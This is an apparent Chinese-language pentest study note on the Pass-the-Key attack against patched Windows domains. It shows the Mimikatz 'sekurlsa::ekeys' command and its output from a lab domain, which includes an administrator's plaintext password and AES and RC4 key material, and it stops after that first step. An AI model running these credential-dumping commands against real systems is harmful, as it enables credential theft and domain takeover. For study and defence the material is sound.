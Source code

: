 > https://www.freebuf.com/column/220740.html
> 

对于`8.1/2012r2`，安装补丁`kb2871997`的`Win 7/2008r2/8/2012`等，可以使用`AES keys`代替`NT hash`来实现`ptk`攻击

## PTK 密钥传递攻击

PTK = Pass The Key

PTK：打了补丁才能用户都可以连接，采用aes256连接

当系统安装了`KB2871997`补丁且禁用了`NTLM`的时候，

那我们抓取到的`ntlm hash`也就失去了作用，但是可以通过`PTK`的攻击方式获得权限

1. `sekurlsa::ekeys` 
    
    ![image.png](image%206.png)
    
    ```python
    Authentication Id : 0 ; 1445774 (00000000:00160f8e)
    Session           : Interactive from 6
    User Name         : administrator
    Domain            : SUNSET
    Logon Server      : WIN-QCGP8LUPL56
    Logon Time        : 2024/11/20 15:28:46
    SID               : S-1-5-21-3031359239-526496926-4174433566-500
    
    	 * Username : administrator
    	 * Domain   : SUNSET.COM
    	 * Password : Ax118811
    	 * Key List :
    	   aes256_hmac       5e79ea5c0a0aa576d15e75394ff1150b68c012ee2c701c228c1dc7c42c182857
    	   aes128_hmac       708481a62d5510a98c4e224125d85151
    	   rc4_hmac_nt       95e7c9e155ed6f372fbe791c52a5e345
    	   rc4_hmac_old      95e7c9e155ed6f372fbe791c52a5e345
    	   rc4_md4           95e7c9e155ed6f372fbe791c52a5e345
    	   rc4_hmac_nt_exp   95e7c9e155ed6f372fbe791c52a5e345
    	   rc4_hmac_old_exp  95e7c9e155ed6f372fbe791c52a5e345
    ```
    